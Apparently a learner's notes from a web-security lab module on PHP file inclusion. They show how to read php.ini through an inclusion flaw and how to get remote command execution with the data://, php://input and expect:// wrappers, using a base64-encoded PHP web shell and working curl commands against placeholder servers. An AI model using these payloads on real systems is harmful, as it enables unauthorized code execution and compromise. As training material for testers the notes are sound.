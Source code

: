 ## Data
* The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code
* However, the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations
* So, let's first confirm whether this setting is enabled, by reading the PHP configuration file through the LFI vulnerability

#### Checking PHP Configurations
* File is found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version
* We can start with the latest PHP version, and try earlier versions if we couldn't locate the configuration file
* We will also use the `base64` filter we used in the previous section, as `.ini` files are similar to `.php` files and should be encoded to avoid breaking
* Finally, we'll use cURL or Burp instead of a browser, as the output string could be very long and we should be able to properly capture it

```sh
$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
<!DOCTYPE html>

<html lang="en">
...SNIP...
 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">
```

```sh
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

* `This option is not enabled by default`, and is required for several other LFI attacks, like using the `input` wrapper or for any RFI attack
* It is `not uncommon to see this option enabled`, as many web applications rely on it to function properly, like some WordPress plugins and themes, for example

#### Remote Code Execution
* With `allow_url_include` enabled, we can proceed with our `data` wrapper attack
* As mentioned earlier, the `data` wrapper can be used to include external data, including PHP code
* We can also pass it `base64` encoded strings with `text/plain;base64`, and it has the ability to decode them and execute the PHP code

```sh
$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg=
```

* `http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGV<SNIP>&cmd=id`

![](3.%20Completed/File%20Inclusion/RCE/Screenshots/data_wrapper_id.png)

* We can also use cURL

```sh
$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzd<SNIP>&cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Input
* The [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code
* The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data
* So, the vulnerable parameter must accept POST requests for this attack to work
* `Input` wrapper also depends on the `allow_url_include` setting

```sh
$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Note:** To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)

## Expect
* We may utilize the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to directly run commands through URL streams
* We don't need to provide a web shell, as it is designed to execute commands
* Expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps rely on it for their core functionality, so we may find it in specific cases

```sh
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```

* We can use the `expect://` wrapper and then pass the command we want to execute

```sh
$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

